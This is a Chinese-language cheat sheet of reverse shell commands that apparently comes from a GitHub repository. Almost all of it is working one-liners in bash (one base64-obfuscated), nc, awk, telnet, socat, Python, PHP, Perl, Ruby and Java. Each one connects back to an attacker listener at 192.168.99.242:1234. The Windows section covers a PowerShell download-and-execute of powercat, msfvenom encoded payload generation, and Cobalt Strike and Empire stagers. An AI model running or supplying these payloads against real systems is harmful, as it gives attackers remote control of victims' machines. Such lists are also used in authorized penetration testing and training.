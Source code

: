 # 反弹shell姿势总结

- 攻击机ip：192.168.99.242
- 监听端口：1234  （nc -lvvp 1234）

## Linux

### bash反弹

```bash
bash -i >& /dev/tcp/192.168.99.242/1234 0>&1
```

```bash
bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljk5LjI0Mi8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}'
```

```bash
exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5;done
```

```bash
exec /bin/sh 0</dev/tcp/192.168.99.242/1234 1>&0 2>&0
```

### nc反弹

```bash
nc -e /bin/bash 192.168.99.242 1234
```

### awk反弹

```bash
awk 'BEGIN{s="/inet/tcp/0/192.168.99.242/1234";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```

### telnet反弹

需要在攻击机上分别监听1234和4321端口，获得shell之后，在1234端口终端输入命令，4321端口终端查看命令执行结果

```bash
telnet 192.168.99.242 1234 | /bin/bash | telnet 192.168.99.242 4321
```

### socat反弹

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane 
tcp:192.168.99.242:1234
```

### python反弹

```python
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.99.242',1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

### PHP反弹

```php
php -r '$sock=fsockopen("192.168.99.242",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Perl反弹

```perl
perl -e 'use Socket;$i="192.168.99.242";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Ruby反弹

```ruby
ruby -rsocket -e'f=TCPSocket.open("192.168.99.242",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java反弹

编译执行reverse.java

```java
javac reverse.java
java reverse
```

```java
//reverse.java
public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```

## Windows

### nc反弹

```cmd
nc 192.168.99.242 1234 -e c:\windows\system32\cmd.exe
```

### powershell反弹

```cmd
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.99.242 -p 1234 -e cmd
```

### MSF反弹

```cmd
msfvenom -l payloads | grep 'cmd/windows/reverse'
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.99.242 LPORT=1234
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 LHOST=192.168.99.242 LPORT=1234 -f exe > /hack.exe
```

### Cobalt Strike反弹

```cmd
1、配置监听器：点击Cobalt Strike——>Listeners——>在下方Tab菜单Listeners，点击add。
2、生成payload：点击Attacks——>Packages——>Windows Executable，保存文件位置。
3、目标机执行powershell payload
```

### Empire反弹

```cmd
usestager windows/launcher_vbs
info
set Listener test
execute
```